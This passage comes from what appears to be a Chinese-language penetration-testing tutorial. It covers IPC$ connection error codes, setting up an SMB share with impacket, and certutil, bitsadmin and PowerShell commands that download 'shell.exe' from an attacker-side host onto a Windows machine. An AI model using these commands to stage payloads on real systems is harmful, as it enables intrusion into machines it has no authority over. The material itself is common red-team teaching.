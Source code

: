 ```bash
5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限 
51：网络问题，Windows 无法找到网络路径
53：找不到网络路径，可能是 IP 地址错误、目标未开机、目标 Lanmanserver 服务未启动、有 防火墙等问题
67：找不到网络名，本地 Lanmanworkstation 服务未启动，目标删除 ipc$
1219：提供的凭据和已存在的凭据集冲突，说明已建立 IPC$，需要先删除
1326：账号密码错误
1792：目标 NetLogon 服务未启动，连接域控常常会出现此情况
2242：用户密码过期，目标有账号策略，强制定期更改密码
```

#### [建立 IPC 失败的原因](#toc_ipc_1)

（1）目标系统不是 NT 或以上的操作系统

（2）对方没有打开 IPC$共享

（3）对方未开启 139、445 端口，或者被防火墙屏蔽

（4）输出命令、账号密码有错误

### [通过搭建 SMB 服务器](#toc_smb)

SMB（Server Message Block，服务器消息块），又称 CIFS（Common Internet File System，网络文件共享系统），主要功能是使网络上的计算机能够共享计算机文件、打印机、串行端口和通信等资源。SMB 消息一般使用 NetBIOS 协议或 TCP 发送，分别使用端口 139 或 445，目前倾向于使用 445 端口。

在 linux 上，可以通过 [https://github.com/fortra/impacket/blob/master/impacket/smbserver.py](https://github.com/fortra/impacket/blob/master/impacket/smbserver.py) 来搭建 smb 服务器。

```bash
mkdir /root/smbshare python smbserver.py mysmb /root/smbshare -smb2support
```

### [通过 Windows 自带工具](#toc_windows)

#### [**Certutil**](#toc_certutil)

Certutil 是 Windows 自带的命令行工具，用于管理 Windows 证书并作为证书服务器的一部分安装。Certutil 提供了从网络下载文件的功能。

```bash
certutil -urlcache -split -f http://192.168.1.1:8000/shell.exe c:\users\public\shell.exe 
//从 192.168.1.1:8000 下载 shell.exe 到本地 c:\users\public\目录下
```

#### [**BITSAdmin**](#toc_bitsadmin)

BITSAdmin 用于创建、下载和上传作业，监视其进度。Windows7 及以后的系统自带 BitsAdmin 工具。

```bash
bitsadmin /transfer test http://192.168.1.1:8000/1.txt c:\users\mytools\a.txt 
// 创建一个名为 test 的 bitsadmin 任务，从 192.168.1.1:8000 下载 1.txt，保存为 c:\users\mytools\a.txt
```

#### [**powershell**](#toc_powershell)

通过创建 WebClient 对象来实现文件下载

```bash
(New-Object Net.WebClient).DownloadFile("http://192.168.1.1:8000/shell.exe", "c:\users\public\shell.exe") 
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.1.1:8000/shell.exe','c:\users\public\shell.exe')"
```
